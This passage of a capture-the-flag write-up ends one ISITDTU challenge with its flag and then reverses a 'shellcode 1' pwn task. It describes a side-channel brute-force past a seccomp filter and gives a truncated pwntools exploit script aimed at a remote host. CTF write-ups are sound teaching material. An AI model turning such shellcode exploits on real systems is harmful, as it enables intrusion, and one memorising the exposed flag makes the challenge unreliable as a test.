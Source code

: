 
Flag: `ISITDTU{N0w_I_kn0w_about_search-ms}`


## PWN
### shellcode 1

![image](https://hackmd.io/_uploads/rJaT05ilJl.png)


#### Reverse


![image](https://hackmd.io/_uploads/rJzzxhjgJe.png)


The flow is pretty straight-forward:
- read flag and save it in memory
- `mmap` a rwx address space
- allow us write shellcode on it
- filter syscall with `seccomp`
    - no open, read, write, execve

#### Exploit
So I just use side-channel attack, to bruteforce the flag

#### Script
```python
from pwn import *

exe = './challenge'
e = context.binary = ELF('challenge')
gdbscript = '''
b *main+344
b *main+374
continue
'''

def connect():
    global r
    r = remote("152.69.210.130", 3001)
    # r = process(exe)
    # r = gdb.debug(exe, gdbscript=gdbscript)

# pwningggg

def tryChar(c,index):
    # Connect to the service
    connect()
    r.recvline(b"Some gift for you:")

    # Default is to exit
    shellcode = "xor eax, eax\n"
    shellcode += "mov edi, 0\n" # Read from stdin, effectively holding the connection open

    shellcode += "add rdx, 0x1000\n"

    # Load up 64-bits at a time
    shellcode += "mov rbx, [rdx + {0}*8]\n".format(index//8)

    # Shift over to the char we're actually comparing against
    shellcode += "shr rbx, {0}\n".format(8*(index%8))

    # perform loop
    shellcode += "loop:"
```